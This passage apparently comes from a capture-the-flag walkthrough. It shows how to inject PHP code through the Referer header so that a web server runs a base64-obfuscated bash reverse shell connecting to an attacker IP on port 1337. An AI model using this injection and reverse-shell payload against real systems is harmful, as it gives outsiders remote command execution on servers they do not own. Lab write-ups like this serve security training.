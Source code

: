 Now change the referrer header to call a PHP system function to trigger our reverse shell

```bash
'<?php echo system("echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjUuMjMzLzEzMzcgMD4mMScK | base64 -d | bash");?>'
```

![image.png](../images/reset%2010.png)

Now let’s send the request! 

![image.png](../images/reset%2011.png)
